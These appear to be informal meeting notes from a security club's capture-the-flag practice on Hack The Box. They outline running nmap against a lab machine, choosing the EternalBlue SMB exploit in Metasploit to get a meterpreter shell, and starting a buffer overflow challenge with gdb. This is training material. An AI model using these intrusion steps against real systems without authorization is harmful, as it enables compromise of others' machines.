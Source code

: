 # March 3 2021

## Participants
- Reid Hurlburt
- Brennan
- Grace K
- Stephen Cole

## Activities
- Did the `blue` machine from HackTheBox
- Took a look at the basics behind buffer overflows in C at `repo.zenk-security.com`
- Tried the pwn challenged `reg` from Hack the Box's retired pwn challenges
- Took a look at `The_secret_of_a_queen`
- Took a look at `canvas`

### blue
Start with an `nmap` scan
	sudo nmap -sS -sC -sV -top-ports 100 10.10.10.40 -vv
- `-vv` for double-verbose

Results come back we see that there is an smb result.

Using `exploit-db.com` we check for windows 7 SMB exploits

We see that the box is called `blue` and there's an exploit called `eternal blue`...
But also, `eternal blue` is an eploit to execute code on Windows 7 servers, so it's probably what we want.

Then, using metasploit through `msfconsle`, search for Windows 7 SMB exploits.
There's a whole bunch.
We use exploit 2

Set the host to be our address. Use `ip a` to find our ip.
`>  set LHOST our_ip`
`> exploit`

This opens a `meterpreter` shell, but at least we're on their system.
Now we need to try to get access to a specific user.

The goal is to get the `user.txt` and the `root.txt` files, you need to be those users to get those files.

### Reg

Get the zip folder from our github repo /writeups/pwnreg.zip
`> unzip pwnreg.zip` gives us an executable called `reg`.
Running it asks for a user prompt. We know that this a pwn challenge so giving it a bunch of 
A's gives us a segfault (like we expect it to).
Using gdb to debug:
	(gdb) run
	(gdb) ^C
	(gdb) x/5i $pc-6
This series of commands will let us print 5 instructions starting from the program counter.

`info frame` can also help to show what's in your current stack frame
